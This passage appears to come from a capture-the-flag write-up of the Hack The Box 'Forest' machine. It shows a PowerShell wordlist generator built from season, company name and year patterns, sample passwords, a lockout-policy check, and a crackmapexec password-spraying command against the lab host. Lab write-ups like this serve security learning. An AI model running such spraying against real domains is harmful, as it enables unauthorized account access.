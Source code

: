 ```powershell
			$Wordlist += "$Season$Char$Year"
			$Wordlist += "$CompanyName$Char$Year"
		}
	}
}
```

*Running that script,* I get a list of 370 passwords to try. Not bad :D

```
..SNIP..
Forest2019
Forest2019!
Summer2019
Summer2019!
Summer!2019
Forest!2019
Summer@2019
Forest@2019
Summer#2019
Forest#2019
Summer$2019
Forest$2019
Summer%2019
..SNIP..
```

### Enumerating domain password policy before password spraying

I then use `crackmapexec` to obtain the password policy. We don't want to lock everyone one out XD

![CME-Pass-Pol](/assets/Forest/CME-Pass-Pol.jpg)

We see that `Account Lockout Threshold: None` and `Domain Password Lockout Admins: 0`. This is amazing! we can definitely bruteforce without any problems :D

We start the spray using:
```bash
crackmapexec smb 10.10.10.161 -u users.txt -p passwords.txt --continue-on-success
```
